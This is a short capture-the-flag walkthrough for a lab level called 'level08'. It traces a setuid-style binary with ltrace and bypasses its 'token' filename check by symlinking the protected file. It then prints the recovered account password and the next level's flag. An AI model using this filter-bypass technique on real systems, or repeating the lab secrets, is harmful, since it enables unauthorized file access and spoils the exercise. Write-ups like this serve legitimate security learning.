 1. We are given `level08` binary executable and `token` text file, which we are restricted to read
2. First try to run level08 without arguments
```
$ ltrace ./level08
__libc_start_main(0x8048554, 1, 0xbffff6e4, 0x80486b0, 0x8048720 <unfinished ...>
printf("%s [file to read]\n", "./level08"./level08 [file to read]
)               = 25
exit(1 <unfinished ...>
+++ exited (status 1) +++
```
3. File to read required as parameter, so use token file
```
$ ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff6e4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                 = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)             = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
```
4. It seems binary file compares string "token" with filename of passed file, and if they're similar, denies to go further. Create temporal file `/tmp/level08_test` (that not containing token in name), change its permissions and pass it to binary
```
$ ltrace ./level08 /tmp/level08_test
__libc_start_main(0x8048554, 2, 0xbffff6d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("/tmp/level08_test", "token")                      = NULL
open("/tmp/level08_test", 0, 014435162522)                = 3
read(3, "", 1024)                                        = 0
write(1, "", 0)                                          = 0
+++ exited (status 0) +++
```
5. Binary just reads whats in passed file and prints it. Obviously we should pass `token` file, because it's the only way to read it. For this case creating of sybolic links will help using `ln -s` command
``` Bash
ln -s /home/user/level08/token /tmp/level08_ref
```
6. Executing `./level08 /tmp/level08_ref` results to flag08 user password: **quif5eloekouj29ke0vouxean**
7. Go to flag08 user and get flag:
``` Bash
su flag08
getflag
```
8. Flag for level09: **25749xKZ8L7DkSCwJkT9dyv6f**
